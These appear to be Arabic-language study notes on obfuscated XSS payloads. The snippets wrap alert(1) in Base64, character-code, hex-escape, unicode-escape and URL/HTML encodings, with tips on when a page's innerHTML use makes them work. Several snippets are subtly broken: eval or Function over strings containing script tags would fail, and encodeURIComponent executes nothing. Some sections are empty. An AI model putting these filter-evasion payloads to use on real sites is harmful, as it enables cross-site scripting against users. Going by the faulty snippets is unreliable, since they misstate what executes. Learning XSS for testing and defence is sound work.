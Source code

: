{ #XSS_ecoded_payload }
# شرح جميع المحاولات الممكنة لل Obfuscated Payloads

## أ. تقسيم الكلمات



## ب. التشفير ==>(  Base 64 / Html Encode / Url Encode / utf-8 / unicode  /ASCII    )
#### الشرح :
![2025-05-27 01-48-05.mkv](attachments/2025-05-27 01-48-05.mkv)


#### المواقع اللي الشرح:

https://checkserp.com/encode/urlencode/

#### شكل البايلود لكل تشفير :
##### -  Base 64
```javascript
atob('YWxlcnQoMSk=')
```


##### - ASCII
```javascript
<script>
eval(String.fromCharCode(97,108,101,114,116,40,49,41))  // alert(1)
</script>
او 

&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;

```



 #### - utf-8
```javascript

<script> 
eval("\x3Cscript\x3Ealert(1)\x3C/script\x3E")
</script>

أو
<script>
Function("\x3Cscript\x3Ealert(1)\x3C/script\x3E")
</script>

```


##### - Unicode Payload
```javascript

<script> 
eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')
</script>

أو
<script>
Function('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')
</script>

"\u003C\u0073\u0063\u0072\u0069\u0070\u0074\u003E\u0061\u006C\u0065\u0072" 
   document.body.innerHTMLتستخدم الشكل ده  لو لقيت  كده في الكود الصفحه
    
```

#### - Url Encode

```javascript
 encoding   إلخ / طالما المتصفح أو السيرفر بيفك الـ `href`, `src`, `action`, `onclick`  حطه زي م هو  داخل 
  
<script> 
eval("alert('XSS')")
</script>

أو
<script>
encodeURIComponent("<script>alert('XSS')</script>")
</script>
  
```

##### -  Html Encode
```javascript
انت بتحطه بشكله لو لقيت في الصفحه الشكل ده 
 
 document.body.innerHTML 
```
